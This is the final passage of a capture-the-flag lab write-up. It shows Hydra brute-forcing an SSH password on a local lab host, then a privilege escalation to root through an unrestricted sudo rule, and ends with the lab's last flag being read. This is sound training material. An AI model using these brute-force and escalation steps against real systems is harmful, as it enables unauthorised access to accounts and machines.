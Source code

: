 ```console
[INFO] Successful, password authentication is supported by ssh://192.168.1.228:22222
[22222][ssh] host: 192.168.1.228   login: RickSanchez   password: P7Curtains
[STATUS] attack finished for 192.168.1.228 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-04-22 13:44:23

```
We have his password

### Sudo -l

```console
[RickSanchez@localhost ~]$ sudo -l
[sudo] password for RickSanchez: 
Matching Defaults entries for RickSanchez on localhost:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION
    LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User RickSanchez may run the following commands on localhost:
    (ALL) ALL
[RickSanchez@localhost ~]$
```
(ALL) ALL

lets try sudo su

```console
[RickSanchez@localhost bin]$ sudo su
[root@localhost bin]# 
```
Cool we are root now lets find a flag

```console
[root@localhost bin]# cd /root
[root@localhost ~]# ls
anaconda-ks.cfg  FLAG.txt
[root@localhost ~]# tail FlAG.txt
tail: cannot open 'FlAG.txt' for reading: No such file or directory
[root@localhost ~]# tail FLAG.txt 
FLAG: {Ionic Defibrillator} - 30 points
```
Flag: FLAG: {Ionic Defibrillator} - 30 points

130 points total... 


